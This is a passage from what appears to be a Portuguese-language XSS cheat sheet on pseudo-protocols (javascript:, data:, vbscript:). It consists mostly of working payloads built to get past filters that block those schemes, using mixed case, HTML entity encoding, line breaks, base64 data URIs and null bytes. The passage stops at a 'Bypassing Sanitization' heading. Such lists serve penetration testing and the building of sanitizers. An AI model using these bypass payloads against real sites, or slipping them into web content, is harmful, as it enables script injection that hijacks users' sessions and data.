 **Pseudo-protocolos**

**javascript:**

javascript: é um URI scheme não oficial, usado para invocar código JavaScript com um link

```html
<object data="javascript:alert(1)"> // Block (javascript:)

<object data="JaVaScRiPt:alert(1)">
<object data="javascript&colon;alert(1)">
<object data="java
script:alert(1)">
<object data="javascript&#x003A;alert(1)">
<object data="javascript&#58;alert(1)">
<object data="&#x6A;avascript:alert(1)">
<object data="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;alert(1)">
```

Além do **javascript:** também existe o **data:** e o **vbscript:** (exclusivo do IE)

**data:**

Estrutura do data:

	data:[<mediatype>][;base64],<data>

```html
<object data="javascript:alert(1)">  // Block (javascript:)

<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">

<embed code="data:text/html,<script>alert(1)</script>">  // Block (data:)

<embed code="DaTa:text/html,<script>alert(1)</script>">
<embed code="data&colon:text/html,<script>alert(1)</script>">
<embed code="data&#x003A:text/html,<script>alert(1)</script>">
<embed code="&#x64;&#x61ta:text/html,<script>alert(1)</script>">
```

**vbscript:**

```html
<img src=a onerror="vbscript:msgbox 1"/>  // IE8
<img src=a onerror="vbs:msgbox 2"/>       // IE8
<img src=a onerror="vbs:alert(3)"/>       // IE Edge
<img src=a onerror="vbscript:alert(4)"/>  // IE Edge

<img src=x onerror="vbscript:alert(1)"/>  // Block (vbscript:)

<img src=x onerror="vbscript&#x003Aalert(1)"/>
<img src=x onerror="vb&#x63;cript:alert(1)"/>
<img src=x onerror="v&#00;bs&#00;cri&#00;pt:alert(1)"/>  // Null byte
```

# Bypassing Sanitization
## Removing HTML Tags
